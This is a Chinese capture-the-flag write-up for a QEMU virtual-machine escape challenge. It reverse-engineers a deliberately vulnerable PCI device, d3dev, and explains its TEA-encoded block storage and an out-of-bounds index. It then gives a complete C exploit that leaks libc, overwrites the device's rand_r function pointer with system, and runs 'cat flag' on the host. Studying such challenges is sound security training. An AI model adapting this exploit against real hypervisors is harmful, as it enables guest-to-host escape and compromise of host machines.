
# 参考资料
[https://x1ng.top/2021/11/26/qemu-pwn/](https://x1ng.top/2021/11/26/qemu-pwn/)
[https://bbs.kanxue.com/thread-275216.htm#msg_header_h1_0](https://bbs.kanxue.com/thread-275216.htm#msg_header_h1_0)
[https://xz.aliyun.com/t/6562?time__1311=n4%2BxnD0DRDBAi%3DGkDgiDlhjmYh2xuCllx7whD&alichlgref=https%3A%2F%2Fwww.bing.com%2F#toc-4](https://xz.aliyun.com/t/6562?time__1311=n4%2BxnD0DRDBAi=GkDgiDlhjmYh2xuCllx7whD&alichlgref=https://www.bing.com/#toc-4)


# 基本流程
qemu pwn 题目的附件和 Linux 内核题类似，会提供启动脚本、Linux 内核、文件系统，以及打过补丁的 qemu 文件。运行启动脚本，即可使用题目附件中的 qemu 文件启动虚拟机。

启动脚本通常会添加一个内置漏洞的 PCI 设备，这一点也类似于内核题。不过，设备读写操作的实现代码位于打过补丁的 qemu 文件中，可以在 IDA 中搜索函数名，快速定位设备读写函数。

目标是利用设备操作函数中的漏洞，获取 docker 环境所在宿主机的 shell，并拿到宿主机上的 flag。

# 附件





# 检查

# 启动信息
新建 fs 文件夹
进入 fs 文件夹

```bash
cpio -idv < rootfs.img的路径
```
将解包后的内容保存在当前文件夹中


```bash
setsid /bin/cttyhack setuidgid 0 /bin/sh  #shell将以root权限执行
```

# 逆向分析
将 qemu 文件放入 IDA
- 搜索函数名，定位相关函数
- _libc_csu_init -> _frame_dummy_init_array_entry -> do_qemu_init_pci_d3dev_register_types 

可以看到一些与 mmio 和 pmio 有关的函数



# 漏洞








将 opaque 转换为结构体






这里有一段 TEA 加密，~~问了 GPT~~，会对 opaque->blocks[opaque->seek + (unsigned int)(addr >> 3)] 的高 32 位和低 32 位进行加密。

当 opaque->mmio_read_part 为 1 时，返回高 32 位
当 opaque->mmio_read_part 为 0 时，返回低 32 位

v4 = opaque->seek + (unsigned int)(addr >> 3)；当 opaque->mmio_write_part 为 0 时，修改 opaque->blocks[v4] = (unsigned int)val；


根据 addr 返回 opaque 中不同字段的值

当 addr == 8 且 val <= 0x100 时，设置 opaque->seek = val；当 addr > 8 且 addr == 28 时，设置 opaque->r_seed = val，然后调用 `((__int64 (__fastcall *)(uint32_t *, __int64, uint64_t, _QWORD))opaque->rand_r)(
                   &opaque->r_seed,
                   28LL,
                   val,
                   *(_QWORD *)&size);` 否则，如果 addr 不为零，就将 opaque->key 清零


1.  d3dev_mmio_write 和 d3dev_mmio_read 可以写入和读取 opaque->blocks[opaque->seek + (unsigned int)(addr >> 3)]
2. d3dev_pmio_write 可以给 opaque->seek 赋值、调用 opaque->rand_r (  &opaque->r_seed)、将 opaque->key 清零，并设置 opaque->memory_mode = val

# 查看设备配置信息





# exp

```c
//gcc -o exp exp.c -static

#include <stdint.h> 
#include <fcntl.h> 
#include <sys/mman.h> 
#include <sys/io.h> 
#include <stdio.h> 
#include <unistd.h> 


unsigned char* mmio_mem = 0;

void setup_mmio() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
}

void mmio_write(uint32_t addr, uint32_t value) {
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint64_t mmio_read(uint64_t addr) {
    return *((uint32_t *)(mmio_mem + addr));
}


uint32_t pmio_base = 0xc040;

void setup_pmio() {
    iopl(3);
}

void pmio_write(uint32_t addr, uint32_t value)
{
    outl(value, pmio_base + addr);
}

uint64_t pmio_read(uint32_t addr)
{
    return (uint64_t)inl(pmio_base + addr);
}


uint64_t encode(uint32_t high, uint32_t low) {

    uint32_t addr = 0xC6EF3720;

    for (int i = 0; i < 32; ++i) {
        high = high - ((low + addr) ^ (low >> 5) ^ (16 * low));
        low = low - (((high + addr) ^ (high >> 5) ^ (16 * high)));
        addr += 0x61C88647;
    }

    return (uint64_t)high * 0x100000000 + low;
}


uint64_t decode(uint32_t high, uint32_t low) {

    uint32_t addr = 0x0;

    for (int i = 0; i < 32; ++i) {
        addr -= 0x61C88647;
        low += (((high + addr) ^ (high >> 5) ^ (16 * high)));
        high += ((low + addr) ^ (low >> 5) ^ (16 * low));
    }
    return (uint64_t)high * 0x100000000 + low;
}


int main(int argc, char* argv[]) 
{
    printf("[+] Setup\n");
    setup_pmio();
    setup_mmio();


    printf("[+] IO\n");
    pmio_write(0x8, 0x100); //写 opaque->seek = 0x100
    
    mmio_write(8*1,0); // opaque->blocks[0x101]=0
    mmio_write(0,0);
    mmio_write(8*2,0); // opaque->blocks[0x102]=0
    mmio_write(0,0);
    
    uint64_t libcbase=0;
    libcbase = mmio_read(8*3);   //第一次会返回这块8字节内存的低4字节，第二次返回高4字节
    libcbase+= (mmio_read(8*3))<<32 ; //opaque->blocks[0x103]即rand_r函数指针 为qemu进程中的变量此时是qemu进程中的libc中的函数地址
    libcbase = decode(libcbase>>32, libcbase&0xffffffff) - 0x41c30;
    printf("[+] libcbase: 0x%lx\n",libcbase);
    
    
    uint64_t system = libcbase+0x4dab0;
    printf("[+] system: 0x%lx\n",system);
    uint64_t enc_system = encode(system>>32, system&0xffffffff);
    
    mmio_write(8*3,enc_system&0xffffffff);
    mmio_write(8*3,enc_system>>32);//opaque->blocks[0x103]往rand_r函数指针 写system函数指针
	
    pmio_write(0x8, 0);
    mmio_write(0,0x67616c66);
   
    
    pmio_write(0x1c,0x20746163);  //63 61 74 20 

    //会调用下面这个 
    //if ( addr == 28 )
    // {
    //   opaque->r_seed = val;
    //   key = opaque->key;
    //   do
    //     *key++ = ((__int64 (__fastcall *)(uint32_t *, __int64, uint64_t, _QWORD))opaque->rand_r)(
    //                &opaque->r_seed,
    //                28LL,
    //                val,
    //                *(_QWORD *)&size);
    //   while ( key != (uint32_t *)&opaque->rand_r );
    // }
	
    return 0;
} 


```



泄露 libc 后，可以在 libc-database 中查询，也可以直接在 gdb 中计算偏移。

